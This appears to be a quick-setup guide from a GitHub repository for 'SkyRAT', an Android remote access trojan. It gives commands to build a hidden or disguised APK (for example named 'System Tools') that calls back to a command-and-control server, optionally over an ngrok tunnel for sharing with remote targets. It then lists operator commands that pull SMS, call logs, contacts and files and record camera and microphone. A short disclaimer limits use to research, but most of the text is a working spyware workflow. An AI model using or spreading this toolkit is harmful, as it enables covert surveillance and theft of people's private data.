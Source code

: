 # SkyRAT Quick Setup Guide

## 🚀 Fast Track Installation

### **Repository Setup**
```bash
# Clone SkyRAT repository
git clone https://github.com/techsky-eh/skyrat.git
cd skyrat

# Install Python dependencies
pip3 install -r requirements.txt

# Setup Android SDK (automated)
chmod +x tools/android-sdk-setup.sh
./tools/android-sdk-setup.sh
```

### **Verify Installation**
```bash
# Test framework
python3 skyrat.py --help

# Check Android build capability
cd android && ./gradlew tasks
```

## 📱 Quick Build & Test

### **1. Build APK (Local Network)**
```bash
# Replace with your actual IP
python3 skyrat.py --build -i 192.168.1.100 -p 8000 -o test.apk
```

### **2. Start C&C Server**
```bash
# Start server and wait for connections
python3 skyrat.py --shell -i 192.168.1.100 -p 8000
```

### **3. Install & Test APK**
```bash
# Install on test device
adb install build/test.apk

# Grant permissions when prompted
# App will connect automatically
```

## 🌐 External Access (Optional)

### **Using Ngrok for Remote Access**
```bash
# Build with automatic ngrok tunnel
python3 skyrat.py --build --ngrok -p 8000 -o remote.apk

# Server starts automatically after build
# Share the APK for external testing
```

## 🔧 Configuration Options

### **Build Variants**
```bash
# Hidden app (default)
python3 skyrat.py --build -i IP -p PORT -o hidden.apk

# Visible app icon
python3 skyrat.py --build -i IP -p PORT --visible-icon -o visible.apk

# Custom app name
python3 skyrat.py --build -i IP -p PORT --app-name "System Tools" -o custom.apk
```

### **Server Options**
```bash
# Basic server
python3 skyrat.py --shell -i IP -p PORT

# Debug mode (verbose output)
python3 skyrat.py --shell -i IP -p PORT --debug

# Clean build (remove old files)
python3 skyrat.py --build --clean -i IP -p PORT
```

## 📂 Repository Structure
```
skyrat/
├── skyrat.py              # Main entry point
├── utils/                 # Core framework modules
├── android/               # Android source code
├── build/                 # Generated APKs
├── dumps/                 # Downloaded data
├── tools/                 # Setup scripts
└── docs/                  # Documentation
```

## 🎯 Essential Commands

### **Device Information**
```bash
SkyRAT:/> deviceInfo       # Complete device details
SkyRAT:/> getIP            # Device IP address
SkyRAT:/> sysinfo          # System information
```

### **Data Extraction**
```bash
SkyRAT:/> getSMS inbox     # SMS messages
SkyRAT:/> getCallLogs      # Call history  
SkyRAT:/> getContacts      # Contact list
SkyRAT:/> getApps          # Installed apps
```

### **File Operations**
```bash
SkyRAT:/> ls /sdcard/      # List files
SkyRAT:/> download /path/file.jpg  # Download file
SkyRAT:/> upload local.txt         # Upload file
```

### **Recording**
```bash
SkyRAT:/> camList          # Available cameras
SkyRAT:/> startVideo 0     # Start recording
SkyRAT:/> stopVideo        # Stop & download
SkyRAT:/> startAudio       # Start audio
SkyRAT:/> stopAudio        # Stop & download
```

## ⚠️ Important Notes

### **Security Research Only**
- Use only on devices you own or have explicit permission to test
- Follow responsible disclosure practices
- Comply with local cybersecurity laws
- Document all testing activities

### **Testing Environment**
- Use isolated networks for testing
- Document device configurations
- Maintain proper audit trails
- Follow ethical security research guidelines

### **Troubleshooting**
```bash
# Check Java installation
java -version

# Verify Android SDK
echo $ANDROID_HOME

# Test network connectivity
ping YOUR_SERVER_IP

# Check port availability
netstat -ln | grep 8000
```

## 🆘 Getting Help

### **Repository Support**
- **Issues**: https://github.com/techsky-eh/skyrat/issues
- **Discussions**: https://github.com/techsky-eh/skyrat/discussions
- **Wiki**: https://github.com/techsky-eh/skyrat/wiki

### **Community Resources**
- Read the full [README.md](README.md) for comprehensive documentation
- Check [docs/](docs/) for detailed guides
- Review [examples/](examples/) for usage scenarios

### **Quick Fixes**
```bash
# Clean everything and rebuild
python3 skyrat.py --build --clean -i IP -p PORT

# Reset Android project
cd android && ./gradlew clean

# Reinstall dependencies
pip3 install -r requirements.txt --force-reinstall
```

---

**Ready to start? Run the setup commands above and you'll have SkyRAT operational in minutes!**

For detailed documentation, security guidelines, and advanced features, see the main [README.md](README.md).